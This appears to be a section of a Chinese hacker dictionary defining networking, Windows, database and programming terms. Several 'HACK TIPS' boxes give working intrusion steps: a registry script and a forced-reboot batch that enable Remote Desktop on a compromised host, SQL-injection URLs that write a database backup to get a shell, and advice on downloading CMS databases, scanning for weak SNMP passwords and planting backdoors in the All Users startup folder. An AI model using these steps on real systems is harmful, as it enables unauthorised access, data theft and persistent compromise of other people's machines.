域名是与 IP 地址相对应的一串容易记忆的字符，也就是说每个域名其实都对应着相应的 IP。域名是由若干个从 a 到 z 的 26 个拉丁字母及 0 到 9 的 10 个阿拉伯数字和“-”“.”符号构成，并按一定的层次和逻辑排列。

可见，**域名就是上网单位的名称，是一个通过计算机登上网络的单位在该网中的地址。**一个公司如果希望在网络上建立自己的主页，就必须取得一个域名，域名也是由若干部分组成，包括数字和字母。

域名是上网单位和个人在网络上的重要标识，起着识别作用，便于他人识别和检索某一企业、组织或个人的信息资源，从而更好地实现网络上的资源共享。除了识别功能外，在虚拟环境下，域名还可以起到引导、宣传、代表等作用。

从技术上讲，域名只是一个 Internet 中用于解决地址对应问题的一种方法，可以说只是一个技术名词。但是，由于 Internet 已经成为了全世界人的 Internet，域名也自然地成为了一个社会科学名词。目前也有一些国家在开发其他语言的域名，如中文域名。域名不仅便于记忆，而且即使在 IP 地址发生变化的情况下，通过改变翻译对应关系，域名仍可保持不变。

域名可分为不同级别，包括顶级域名、二级域名等。顶级域名又分为两类：一是国家顶级域名（national top-level domain names，简称 nTLDs），目前 200 多个国家都按照 ISO 3166 国家代码分配了顶级域名，例如中国是 cn、美国是 us、日本是 jp 等；二是国际顶级域名（international top-level domain names，简称 iTLDs），例如表示工商企业的 .com、表示网络提供商的 .net、表示非营利组织的 .org 等。

目前大多数域名争议都发生在 com 顶级域名下，因为多数公司上网的目的都是为了赢利。为加强域名管理，解决域名资源的紧张，Internet 协会、Internet 分址机构及世界知识产权组织（WIPO）等国际组织经过广泛协商，在原来三个国际通用顶级域名（com/net/org）的基础上，新增加了一些国际通用顶级域名，并在世界范围内选择新的注册机构来受理域名注册申请。

二级域名是指顶级域名之下的域名。在国际顶级域名下，它是指域名注册人的网上名称，例如 ibm、yahoo、microsoft 等；在国家顶级域名下，它是表示注册企业类别的符号，例如 com、edu、gov、net 等。

### 域名反弹（特定名称）

即利用域名进行“反弹连接”，这是反弹型“木马”常用的一个技术。木马每次进行反弹连接时都连接到指定的域名，而域名又会被解析成 IP 地址。所以想要更改 IP，只需要将域名指向的 IP 地址更改即可。这样的机制可以保证木马每次都顺利找到控制端的 IP。

### 源代码（特定名称）

即未经过编译的源程序，也就是程序编写者编写程序时所写的代码，这种代码是最容易理解与修改的。

### 源地址（黑客技术基础）

一个网络连接总有连接的发起端与接收端，源地址就是发起端的地址，这个概念是相对的。如利用浏览器访问网站的时候，“本机”就是连接的发起端，那对于网站服务器来说，本机的 IP 就是源地址。但对于本机来说，网站服务器将网页传输过来，这时服务器的 IP 就是源地址了。

### 远程控制（黑客技术基础）

远程控制是指在网络上由一台电脑（主控端 Remote／客户端）远距离去控制另一台电脑（被控端 Host／服务器端）的技术。这里的远程不是字面意思的远距离，一般指通过网络控制远端电脑，不过大多数时候我们所说的远程控制往往指在局域网中的远程控制。

当操作者使用主控端电脑控制被控端电脑时，就如同坐在被控端电脑的屏幕前一样，可以启动被控端电脑的应用程序，可以使用被控端电脑的文件资料，甚至可以利用被控端电脑的外部打印设备（打印机）和通信设备（调制解调器或者专线等）来进行打印和访问互联网。

就像你利用遥控器遥控电视的音量、变换频道或者开关电视机一样。

不过，有一个概念需要明确，那就是主控端电脑只是将键盘和鼠标的指令传送给远程电脑，同时将被控端电脑的屏幕画面通过通信线路回传过来。也就是说，我们控制被控端电脑进行操作似乎是在眼前的电脑上进行的，实质是在远程的电脑中实现的。不论打开文件，还是上网浏览、下载等，都是在远程的被控端电脑中。

**正因为木马的本质与远程控制没有什么区别，所以许多木马也美其名曰自己是远程控制软件以逃避法律的追究。**

电脑中的远程控制技术始于 DOS 时代，只不过当时由于技术上没有什么大的变化，网络不发达，市场没有更高的要求，所以远程控制技术没有引起更多人的注意。但是，随着网络的高度发展、电脑管理及技术支持的需要，远程操作及控制技术越来越引起人们的关注。

远程控制一般支持的网络方式有：LAN、WAN、拨号方式、互联网方式。此外，有的远程控制软件还支持通过串口、并口、红外端口来对远程机进行控制（不过这里说的远程电脑，只能是有限距离范围内的电脑）。

传统的远程控制软件一般使用 NETBEUI、NETBIOS、IPX/SPX、TCP/IP 等协议来实现远程控制，控制模式也局限于 C/S 模式上。不过，随着网络技术的发展，目前很多远程控制软件提供通过 Web 页面以 B/S 模式来控制远程电脑，这样可以实现不同操作系统下的远程控制。

常见的远程控制软件有 Radmin、VNC 等，木马类的有“灰鸽子”与“上兴远程控制”等。

### 远程主机

即无法直接进行物理接触的主机，与“本地主机”相对应。

### 组

即“用户组”，详情请见其词条。

### 栈

常用数据结构中的一种，其特点是先进后出，它常与另一种数据结构“堆”一起合称为“堆栈”。堆栈是一种用途十分广泛的数据结构，不仅在程序算法上有很大的作用，也在操作系统的内存管理上有着重要的地位。在进行 C/C++ 编程时，需要程序员对内存的了解比较精准。详情请见“堆栈”词条。

### 整站程序

其英文称为“CMS”，又叫“内容管理系统”。CMS 其实是一个很广泛的称呼，从一般的博客程序、新闻发布程序到综合性的网站管理程序，都可以被称为“内容管理系统”。

常见到的 XX 新闻管理系统，其实就是典型的 CMS。CMS 可以加快网站开发的速度和减少开发的成本。同时，CMS 的功能并不限于文本处理，它也可以处理图片、Flash 动画、声像流、图像，甚至电子邮件档案。对网站内容管理是该系统的最大优势，它流程完善、功能丰富，可把稿件分门别类并授权给合法用户编辑管理，而不需要用户去理会那些难懂的 SQL 语法。CMS 让使用者可以更轻松地发布并修改信息，所以在各个地方都能见到它的身影，如著名的动易 CMS。

#### HACK TIPS

当想要入侵整站程序构建起来的网站时，会先确定这是个什么程序。一般会先找到一个比较特别的页面，如 shownews.asp，再到 www.seeknet.com 查一下有这个页面的程序。

图 Z-1

如果还是无法确定，就再查几个页面，通过多次查询就基本能知道这是一个什么程序。知道程序后接着就查看它的目录结构，如果是 Access 做的数据库，就可以尝试下载，或者找到 conn.asp 的位置尝试“暴库”，甚至干脆将整个程序下载下来研究其漏洞，这些都是基本的方法。

### 壳与软件（加密解密）

顾名思义，就是用来判别程序“壳”类型的软件。要脱壳必然要先侦壳。一般的侦壳软件都会使用一个签名文件来对程序进行侦察，这个签名文件含有很多包含各类加壳程序和编译程序的二进制代码。当签名文件里面的数据与所侦察的结果吻合时，显示是否加壳，比如 PEiD 等工具。

### 振荡波病毒（病毒与恶意软件）

又名 Sasser 蠕虫，中文名为“震荡波”蠕虫，也有人称之为“杀手”蠕虫。Sasser 蠕虫利用微软 Windows NT 内核平台上的 LSASS 漏洞，随机扫描其他网络中计算机的 IP 端口，然后进行传播。尽管可以利用防火墙阻止该电脑蠕虫的传播，但安全专家建议，给系统打上 MS04-011 补丁是最根本的解决措施。

病毒运行后，在本地开辟后门，监听 TCP 5554 端口，作为 FTP 服务器等待远程控制命令。病毒以 FTP 的形式提供文件传送，黑客可以通过这个端口偷窃用户机器的文件和其他信息。病毒开辟 128 个扫描线程，以本地 IP 地址为基础，取随机 IP 地址疯狂试探连接 445 端口，试图利用 Windows 的 LSASS 中存在的一个缓冲区溢出漏洞进行攻击。一旦攻击成功，会导致对方机器感染此病毒并进行下一轮传播；攻击失败也会造成对方机器缓冲区溢出，导致对方机器程序非法操作以及系统异常等。

受影响的操作系统：

- Microsoft Windows NT Workstation 4.0 Service Pack 6a
- Microsoft Windows NT Server 4.0 Service Pack 6a
- Microsoft Windows NT Server 4.0 终端服务器版 Service Pack 6
- Microsoft Windows 2000 Service Pack 2、Microsoft Windows 2000 Service Pack 3 和 Microsoft Windows 2000 Service Pack 4
- Microsoft Windows XP 和 Microsoft Windows XP Service Pack 1
- Microsoft Windows XP 64-Bit Edition Service Pack 1
- Microsoft Windows XP 64-Bit Edition Version 2003
- Microsoft Windows Server 2003
- Microsoft Windows Server 2003 64-Bit Edition

### 帧（黑客技术基础）

在计算机网络中，数据在网络上是以很小的、称为帧（Frame）的单位传输的，帧是计算机数据传输中的最小单位。帧由几部分组成，不同的部分执行不同的功能。

帧通过特定的称为网络驱动程序的软件进行成型，然后通过网卡发送到网线上，通过网线到达它们的目的机器，在目的机器的一端执行相反的过程。接收端机器的以太网卡捕获到这些帧，并告诉操作系统帧已到达，然后对其进行存储。就是在这个传输和接收的过程中，嗅探器会带来安全方面的问题。

### 指针（程序语言与开发）

指针是编程中的重要概念，它在 C 语言和 Delphi 语言中应用十分广泛。指针最主要的功能在于对内存的精确控制，正因为这样，任何一点操作不当都会导致程序崩溃，甚至是操作系统本身出现问题（也正因为如此，一些语言舍弃了复杂的指针，如 Java）。所以，要用好指针并不是件简单的事情，不管是在 C 语言还是 Delphi，指针都是较难学习的知识。

指针的本质是一个无符号整数，它的数值标识的是内存中某一段的地址。指针可以用来有效地表示复杂的数据结构，可以用于函数参数传递并达到更加灵活使用函数的目的，使 C 语言程序的设计具有灵活、实用、高效的特点。

### 中断（调试技术）

中断是计算机中的一种常见的运行机制，它指当 CPU 接到外界硬件（如 I/O 设备）发来的信号时，马上停止原来的工作，转去处理这一事件，在处理完了以后，主机又回到原来的工作继续工作。

### 中间人攻击（渗透技术）

中间人攻击（Man-in-the-Middle Attack，简称“MITM 攻击”）是一种“间接”的入侵攻击，这种攻击模式通过各种技术手段将攻击者控制的计算机插入正在进行网络连接的两台计算机之间，这台计算机就被称为“中间人”。然后入侵者将这台“中间人”计算机同时冒充网络连接的两台计算机，分别与其通信，使“中间人”能对其中的数据有读取、修改、传递信息的权利，而两个原始计算机用户却认为它们是在互相通信。

在 C/S 中，充当了“路由”的角色。通常，这种“拦截数据—修改数据—发送数据”的过程被称为“会话劫持”。

### 终端服务（操作系统及其相关）

即 Terminal Server。终端服务是微软为 Windows NT 版本以上提供的一项特殊服务，在网上俗称“远程桌面”“3389 服务”或简称 3389。

终端服务不管是对于网管还是黑客都有极其重要的作用，因为它能使得操作远程主机像自己的主机一样方便。虽然许多木马都提供了远程控制功能，但速度与隐蔽性远不及终端服务，而 RDP 协议（远程桌面协议，Remote Desktop Protocol）为这些优点提供了重要的基础。

终端服务提供了通过作为终端仿真器工作的“瘦客户机”软件远程访问服务器桌面的能力。它只把该程序的用户界面传给客户机，然后客户机返回键盘和鼠标动作，以便由服务器处理。每个用户都只能登录并看到它们自己的会话，这些会话由服务器操作系统透明地进行管理，而且与任何其他客户机会话无关。客户端软件可以运行在多个客户机硬件设备上，包括计算机和基于 Windows 的终端。综合地来讲，终端服务有以下好处：

- 1. 更快地显示 Windows 的桌面，同时终端服务客户端可用于多种不同的桌面平台，包括 MS-DOS、基于 Windows 的终端、Macintosh 和 Unix。
- 2. 充分利用已有的硬件。当计算机在现有的网络上时，可以继续使用，同时也可作为能仿真桌面的瘦客户机使用。
- 3. 程序的集中配置。在 Windows 2000 的终端服务下，所有程序的执行、数据的处理以及数据的存储都在服务器上进行。程序得以集中配置。终端服务可确保所有客户机都能访问当前版本的程序，软件只能在服务器上安装一次，而不能安装在您单位的每个桌面上，这样可减少单独更新计算机所花费的成本。
- 4. 远程管理。终端服务提供了对 Windows 的远程管理，为系统管理员提供了从任何客户机通过广域网或拨号连接远程管理其服务器的一种方法。

以上几个特性决定了它在网络界的地位。它比任何一个木马的功能都强大，因为有了它，你就等于完全控制了对方的电脑，可以完全在上面完成本机的一切入侵任务。

## 终端连接器应用程序

即用来连接终端的程序。根据终端的不同，终端连接器的种类也不同。最常见的终端连接器是为 Windows 终端服务提供连接的远程桌面连接。

图 Z-4

Windows NT 以后的版本都自带有这种连接器，在运行中输入 MSTSC 就可以打开远程桌面连接。另一种常见的终端连接器是 SecureCRT，其主要是用来连接 TELNET、SSH2、SSH3 等使用其他协议的终端。

图 Z-5

### 注册表（操作系统及其相关）

注册表的定义很简单，以一句话来概括就是存储操作系统及计算机配置信息的数据容器。可实际上，注册表的内容与操作却是十分复杂的，稍有不慎就可能影响到操作系统的正常运行。

具体来说，注册表是 Windows 各个版本中使用的中央分层数据库，用于存储为一个或多个用户、应用程序和硬件设备配置系统所必需的信息。

注册表包含 Windows 在运行期间不断引用的信息，例如每个用户的配置文件、计算机上安装的应用程序以及每个应用程序可以创建的文档类型、文件夹和应用程序图标的属性表设置、系统上存在哪些硬件以及正在使用哪些端口。许多其他的应用程序也会利用注册表保留它们自己的信息，如 MSN 的密码散列就存放在注册表里。

下面来简单了解下注册表的一些基本术语：

- 1、HKEY（根键或主键）：它的图标与资源管理器中文件夹的图标有点儿相像，Windows 98 将注册表分为六个部分，并称之为 HKEY_name，它意味着某一键的句柄。
- 2、key（键）：它包含了附加的文件夹和一个或多个值。
- 3、subkey（子键）：在某一个键（父键）下面出现的键（子键）。
- 4、branch（分支）：代表一个特定的子键及其所包含的一切。一个分支可以从每个注册表的顶端开始，但通常用以说明一个键和其所有内容。
- 5、value entry（值项）：带有一个名称和一个值的有序值。每个键都可包含任何数量的值项，每个值项均由三部分组成：名称、数据类型、数据。
- 6、字符串（REG_SZ）：顾名思义，即一串 ASCII 码字符，如“Hello World”就是一串文字或词组。在注册表中，字符串值一般用来表示文件的描述、硬件的标识等，通常它由字母和数字组成。注册表总是在引号内显示字符串。
- 7、二进制（REG_BINARY）：如 F03D990000BC，是没有长度限制的二进制数值，在注册表编辑器中，二进制数据以十六进制的方式显示出来。
- 8、双字（REG_DWORD）：从字面上理解应该是 Double Word，双字值，由 1-8 个十六进制数据组成，我们可用十六进制或十进制的方式来编辑，如 D1234567。
- 9、Default（缺省值）：每一个键至少包括一个值项，称为缺省值（Default），它总是一个字符串。

#### HACK TIPS

正因为注册表如此强大，所以仅仅对注册表的修改就可能导致系统本身发生巨大的变化。而注册表是可以通过 SHELL 进行修改的，这就使得操作注册表在入侵时变得极为重要。仅仅通过操作注册表就可以开启远程主机的终端服务，下面给出开启 WIN2K 终端服务的简要过程。

在权限足够的前提下（Administrator 或 SYSTEM），在 SHELL 里输入以下命令：

```bash
echo Windows Registry Editor Version 5.00 >>3389.reg
echo [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\netcache] >>3389.reg
echo "Enabled"="0" >>3389.reg
echo [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon] >>3389.reg
echo "ShutdownWithoutLogon"="0" >>3389.reg
echo [HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer] >>3389.reg
echo "EnableAdminTSRemote"=dword:00000001 >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server] >>3389.reg
echo "TSEnabled"=dword:00000001 >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermDD] >>3389.reg
echo "Start"=dword:00000002 >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService] >>3389.reg
echo "Start"=dword:00000002 >>3389.reg
echo [HKEY_USERS\.DEFAULT\Keyboard Layout\Toggle] >>3389.reg
echo "Hotkey"="1" >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp] >>3389.reg
echo "PortNumber"=dword:00000D3D >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp] >>3389.reg
echo "PortNumber"=dword:00000D3D >>3389.reg
```

上面的命令主要是利用 echo 命令将修改的注册表键值输入到 3389.reg。命令完成后再用 `regedit /s 3389.reg` 命令将 3389.reg 导入注册表，接着再利用批处理重启机器。批处理代码如下：

```bat
@echo off
setlocal
``````bash
cd /d %temp%
echo [version] >> reboot.inf
set inf=InstallHinfSection DefaultInstall
echo signature=$chicago$ >> reboot.inf
echo [defaultinstall] >> reboot.inf
rundll32 setupapi,%inf% 1 %temp%\reboot.inf
del reboot.inf
```

运行此批处理后，主机会自动重启，3389 也就打开了。

另外，修改注册表还可以进行【克隆账户】、开启共享、隐藏后门的痕迹等。在入侵的过程中如果能够熟练地使用注册表，将会得到事半功倍的效果，所以学好注册表是十分有必要的。

## 四、注册表编辑器——操作系统及其相关

顾名思义，注册表编辑器就是用来查看、修改注册表内容的程序，Windows 自带有这样的编辑器，打开方式为：“开始”－“运行”，然后输入 regedit，回车即可，界面如图 Z-6。

图 Z-6

我们可以看到，注册表编辑器与资源管理器的界面很相似，它可以用来查看和维护注册表。左边窗格中，由“我的电脑”开始，以下是六个分支，每个分支名都以 HKEY 开头，称为主键（KEY）。展开后可以看到主键还包含次级主键（SubKEY），当单击某一主键或次主键时，右边窗格中显示的是所选主键内包含的一个或多个键值（Value）。键值由键值名称（Value Name）和数据（Value Data）组成，主键中可以包含多级的次级主键，注册表中的信息就是按照多级的层次结构组织的。每个分支中保存着计算机软件或硬件设置中某一方面的信息与数据。

## 五、注册机——特定名称

大部分商业软件为了维护自身的利益，都会有一些保护措施，最常见的就是要求用户输入从官方获得的【注册码】，而注册码只有用户付费以后才能得到。但软件一旦遭到破解，破解者就可以得出相应的注册码。

一般情况下，每台机器注册码都不同，所以必须有一个可以针对每台机器生成相应注册码的程序，这就是注册机。每种软件（甚至每个软件的版本）的注册码算法都不相同，所以对于不同的软件就需要各种专门的注册码。

## 注册码——特定名称

顾名思义，就是用来验证用户合法性的代码。大部分商业软件都需要输入合法的注册码来验证使用者是否为合法的用户，只有验证通过才能正常使用该软件。

## 注册码跟踪——加密解密

通过工具对程序代码进行注册方面的分析过程，一般称为注册码跟踪。当然，一些解壳、解网络验证等类的东西不属于此范畴。注册码跟踪有明码跟踪和非明码跟踪两种方式，关键之处主要是程序内存中是否会出现明文信息。

## 注入点——渗透技术

注入点是指存在 SQL 注入漏洞的 URL；最常见的注入点类似于 `http://www.xxxxx.net/list.asp?id=Num` 这种形式，当然，asp 的后缀可以换成 php、jsp，甚至是 aspx。也就是说，各种类型的脚本程序都会存在注入点，而形式也都大同小异。

SQL 注入的核心思想在于将非法的 SQL 语句注入到正常的 SQL 语句之中，从而让数据库执行攻击者所传递的非法 SQL 语句。为了达到这个目的，就必须通过一个有漏洞的脚本程序来传递非法的 SQL 语句；这个有漏洞程序就叫作注入点。

下面用 ASP 代码来进一步讲解注入点形成的原因。比如 list.asp 文件中的关键代码如下：

```asp
id=request.Form("id")
set rs=Server.createobject("adodb.recordset")
sql="select * from admin id="&id
rs.open sql, conn, 1, 1
```

上面的代码有四行，而每一行恰恰对应着前面描述的过程，SQL 注入的关键就在于第一步和第三步。

请注意，SQL 语句是由两部分构成的：程序设计者所设计好的 SQL 语句和用户传递过来的参数。如果设计者没有控制好用户传递过来的参数时，恶意用户自然有可能更改原始的 SQL 语句，甚至让数据库完全被攻击者所操纵。说到底，就是程序设计者对输入的数据没有进行有效的过滤，这也是 SQL 注入漏洞出现的本质原因。

在上面的代码中，参数 id 在从客户端得到数据后就直接进入了 SQL 语句中，之后没有对参数 id 进行任何的检查和过滤就进行数据库操作，所以恶意用户可以在 id 中输入任何的数据。这就是注入点形成的原因。其它脚本，如 PHP、JSP 注入点形成原因也类似，只是个别地方不相同，读者可以自行研究。许多傻瓜化注入软件已经有扫描注入点的功能，如【啊D注入工具】，如图 Z-7。扫描到注入点后就可以进行数据库的内容猜解与命令执行，许多软件也提供了相应的功能。除了上述的工具外，还有鼎鼎大名的 NBSI，如图 Z-8。

图 Z-8

随着技术的发展，前面所述的这种明显的注入点已经越来越少了，但一个大型站点数千个页面中还是可能存在一两个没有过滤好的地方。何况注入除了 GET 方式外，还有 POST、COOKIE 等多种方式，所以现在注入点还是为我们提供了入侵的可能。入侵的时候，找注入点是花费时间最久的部分，但是一旦找到，成功就指日可待了。

不过随着中间层技术的发展，以后的数据库操作都不会直接写进脚本代码，而会被一一封装，SQL 注入在以后很可能就不复存在了。

## 注销——操作系统及其相关

对于多用户的操作系统来说，注销意味着向系统发出清除现在登录用户的请求，清除后即可使用其他用户来登录你的系统。一般情况下，注销不可以替代重新启动。

对于论坛社区等其他需要登录的网站来说，注销意味着登录的用户退出，这时将清除服务器上的 SESSION 以及本地机器上的 COOKIE。

## 抓包——黑客技术基础

抓包是【嗅探】的俗称，因为嗅探的本质就是截取并查看每个网络数据包的过程，所以可以把嗅探形象地称为抓包。

## 专杀工具——特定名称

某些新病毒或木马在网络大规模传播后，会有人专门针对这种病毒或木马编制成查杀软件，这样的软件就叫作专杀工具，常见的如灰鸽子专杀工具、机器狗专杀等。

## 转义字符——程序语言与开发，攻击方法与行为

在许多程序语言中，当需要输出一些键盘上没有的特殊字符时就需要用到转义字符。如在 C 语言中，想要用 printf 输出换行符时就需要用到转义字符“\n”，输出回车时就要用到转义字符“\r”。而在 HTML 语言中，尖括号“<”本身就是语法中不可或缺的，但想要输出它时怎么办呢？这时也要用到转义字符“&lt;”。

很多时候为了防止【跨站】漏洞的出现，程序设计者也会将用户提交的数据进行过滤，但这样就会出现很多麻烦，如用户要分享一段源代码时就会损失掉许多关键字符，所以这个时候就可以将关键字符转换成转义字符再输出到网页上。

下面给出 C 语言与 HTML 语言中常见的转义字符：

| C 语言的相关字符 | 转义字符 |
|---|---|
| 回车换行 | `\n` |
| 横向跳到下一制表位置 | `\t` |
| 竖向跳格 | `\v` |
| 退格 | `\b` |
| 回车 | `\r` |
| 走纸换页 | `\f` |
| 反斜线符“\\” | `\\` |
| 单引号符“\'” | `\'` |

| HTML 相关字符 | 转义字符 |
|---|---|
| `"` | `&quot;` |
| `&` | `&amp;` |
| `<` | `&lt;` |
| `>` | `&gt;` |
| 空格 | `&nbsp;` |

## 子查询——数据库

子查询是一种特殊的 SQL 查询语句，一般查询语句为如下形式：

```sql
Select * from User Where age>18
```

此语句是查询 USER 表中 age 大于 18 的条目。可当 age 的值也需要通过查询得到时，就要用到子查询了，如：

```sql
Select * from User where age>(select age from student where name='cody')
```

上面的语句执行时，会先从 student 表中取出 name 为 cody 的 age 值，再赋值给主查询语句的 age 进行查询。

## 子键——操作系统及其相关

父键下出现的键，详情请见词条【注册表】。

## 子目录——操作系统及其相关

文件系统中，某个目录 A 下面可能有其他目录 B、C、D，那么目录 B、C、D 都称为目录 A 的子目录，而目录 A 是目录 B、C、D 的【根目录】。在 Windows 中，可以通过资源管理器的树形结构清楚地看到这一点，如图 Z-9。

## 子网——黑客技术基础

对于许多大型企业或教育科研机构而言，仅仅用一个 C 类【内网】网段是远远无法满足要求的。因为一个 C 类网段，除去主机号为 0 与 255 的主机，最多只能有 254 台机器，而继续增加一个网段的计算机数量会使得网络性能降低，所以在一个大型内网中，常常需要将大型的网络划分成若干小网络，这些小网络称为子网。

子网的产生能够增加寻址的灵活性，其原因总的来说有两点：

- 广播对网络性能的影响：广播是目标针对全网络计算机的数据包，子网网段数量太大会占用线路带宽而影响性能。
- 网络地址的浪费：启用地址分类后的潜在缺点是地址浪费，如果主机数为 300，则无论使用 B 类还是 C 类，都存在不足或浪费。

## HACK TIPS:

当渗透进一个大型网络后，我们首先要做的就是知道对方到底有几个子网，常规的方法是先用 tracert 命令确定各个路由的位置，再对其进行 SNMP 弱口令扫描。如果有 SNMP 弱口令，则可以得到其【路由器】的路由表，这样就可以迅速地确定这个网络到底有几个子网了。

## 子网掩码——黑客技术基础

一个大型网络可以由许多小型网络构成，每个网络上都有许多主机，这样便构成了一个有层次的结构。一个 IP 地址，如 172.16.10.19，可以精确地在网络中确定一台主机，这个 IP 地址包括了两个部分：一个是网络号，用来标识此主机处于哪个网络；另一个是主机号，用来标识主机在网络中的位置。

可是如何分辨 IP 地址中的网络号与主机号各是多少呢？子网掩码就是用来标识 IP 中 32 位二进制中有多少位属于网络地址。从另一个角度来说，子网掩码是用来帮助计算机判断所发送的数据包目的地址是本地还是需要跨路由，从而选择不同的发送路径。

子网掩码的设定必须遵循一定的规则。与 IP 地址相同，子网掩码的长度也是 32 位，左边是网络位，用二进制数字“1”表示；右边是主机位，用二进制数字“0”表示。只有通过子网掩码，才能表明一台主机所在的子网与其他子网的关系，使网络正常工作。

A、B、C 类 IP 地址的默认子网掩码如下：

- A：255.0.0.0
- B：255.255.0.0
- C：255.255.255.0

**用子网掩码判断 IP 地址的网络号与主机号的方法是用 IP 地址与相应的子网掩码进行与运算**，这样可以区分出网络号部分和主机号部分。

如 10.68.89.1 是 A 类 IP 地址，所以默认子网掩码为 255.0.0.0，分别转化为二进制进行与运算后，得出网络号为 10。再如 202.30.152.3 和 202.30.152.80 为 C 类 IP 地址，默认子网掩码为 255.255.255.0，进行与运算后得出二者网络号相同，说明两主机位于同一网络。

## HACK TIPS:

在渗透的过程中，子网掩码也是一个必须要知道的参数，一般在 SHELL 下输入 ipconfig 就可以查看到对方主机的状况，得到相应的子网掩码就可以确定此内网的情况与网段的范围，这对渗透会起到很好的辅助作用。

## 字段——数据库

字段是数据库技术中【列名】的别称，详情请见其词条。

## 字符串——程序语言与开发

字符串是编程中经常要使用到的数据结构，它是字符组成的序列，从某种程度上来说有些类似于字符数组。在各种语言中几乎都要用到字符串，因为用它可以直接输出人类容易理解的信息。在各种语言的开发中，字符串都会用单引号或双引号括起来，用以跟其他变量区别。

## 字符串型——程序语言与开发

在许多文章中，字符型一般与数字型这个词同时出现，而出现最多的地方就在与 SQL 注入有关的文章或程序中，如在 NBSI 中就可以很明显地看到这两个词，如图 Z-10。

图 Z-10

## HACK TIPS:

正因为上述原因，我们在进行 SQL 注入的时候，就要分析清楚对方的注入点到底是数字型的还是字符型的。如果是字符型的，就要在变量的最后加上单引号将其闭合，否则整条注入语句都会当作字符串进行处理，也就无法达到我们想要注入的效果了。

如在进行 LOG 备份获取 SHELL 时，数字型的注入形式为：

```text
http://127.0.0.1/test.asp?a=1;declare @a sysname,@s varchar(4000) select @a=db_name(),@s=0x737333313532 backup database @a to disk=@s--
```

字符型的注入形式为：

```text
http://127.0.0.1/test.asp?a=1';declare @a sysname,@s varchar(4000) select @a=db_name(),@s=0x737338373738 backup database @a to disk=@s--
```

请读者注意区别。

## 字节——黑客技术基础

字节（byte）是计算机信息技术用于计量存储容量和传输容量的一种单位，1 个字节包含 8 个最基本的二进制位。一般来说，一个英文字母（不分大小写）占一个字节的空间，一个中文汉字占两个字节的空间。符号方面，英文标点占一个字节，中文标点占两个字节。

字节与其他计量存储单位的换算情况如下：

- 1 Byte = 8 bit
- 1 KB = 1024 byte
- 1 MB = 1024 KB（2 的 20 次方字节）
- 1 GB = 1024 MB（2 的 30 次方字节）
- 1 TB（千 G 字节）= 1024 GB（2 的 40 次方字节）

## 自启动——操作系统及其相关

方法一类是将要启动的文件放在指定的目录，二类是修改注册表，让注册表的某些特殊键值为此文件的路径。

### 1、自启动目录

默认路径位于：

```text
C:\Documents and Settings\Administrator\「开始」菜单\程序\启动
C:\Documents and Settings\All Users\「开始」菜单\程序\启动
```

这是最基本、最常用的 Windows 启动方式，主要用于启动一些应用软件的自启动项目，如 Office 的快捷菜单。一般用户希望启动时所要启动的文件也可以通过这里启动，只需把所需文件或其快捷方式放入文件夹中即可。

对应的注册表位置如下：

```reg
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders]
"Startup"="%Directory%\"
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders]
"Startup"="%Directory%\"
```

其中“%Directory%”为启动文件夹位置。

## HACK TIPS:

上面的启动目录中，`C:\Documents and Settings\All Users\「开始」菜单\程序\启动` 是对于提权十分重要的一个突破口，因为 All Users 指的是任何用户，所以放在这个目录下的文件将会被所有用户启动。当这个目录有写权限时（默认设置下普通用户也是有的），就可以将后门或木马放置在这个目录，等待主机重启进行提权。

### 2、注册表启动

注册表中的启动应该是使用最频繁的启动方式，但这样的方式也有一些隐藏性较高的方法，大致有三种。

- 1) 常规启动

其中 %path% 为任意路径，file.exe 为要运行的程序。

```reg
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices]
"Anything"="%path%\file.exe"
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]
"Anything"="%path%\file.exe"
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
"Anything"="%path%\file.exe"
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce]
"Anything"="%path%\file.exe"
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
"Whatever"="c:\runfolder\program.exe"
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce]
"Whatever"="c:\runfolder\program.exe"
```

## 注意：

- 如果需要运行 .dll 文件，则需要特殊的命令行。如：`Rundll32.exe C:\WINDOWS\FILE.DLL,Rundll32`
- 解除这里相应的自启动项只需删除该键值即可，但注意不要删除如 SystemTray、ScanRegistry 等这样的系统键值。
- 如果只想不启动而保留键值，只需在该键值加入 rem 即可。如：`rem C:\Windows\a.exe`
- 在注册表中的自启动项中没有这项：`[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices]`
- Run 和 RunServices 的区别在于：Run 中的程序是在每次系统启动时被启动，

## Z. 黑客词典

**RunServices** 则是会在每次登录系统时被启动。

### 3、特殊启动

##### （1）关联启动

在注册表中除了上述的普通启动方式以外，还可以利用一些特殊的方式达到启动的目的，例如文件关联启动。当我们打开一个 TXT 文件时，系统会自动用记事本打开，这就叫做文件关联。当然，这种关联是可以更改的，键值位置如下：

```
HKEY_CLASSES_ROOT\exe\file\shell\open\command @="\"%1\" %*"
HKEY_CLASSES_ROOT\com\file\shell\open\command @="\"%1\" %*"
HKEY_CLASSES_ROOT\bat\file\shell\open\command @="\"%1\" %*"
HKEY_CLASSES_ROOT\hta\file\shell\open\command @="\"%1\" %*"
HKEY_CLASSES_ROOT\txt\file\shell\open\command @="\"%1\" %*"
HKEY_LOCAL_MACHINE\Software\CLASSES\bat\file\shell\open\command @="\"%1\" %*"
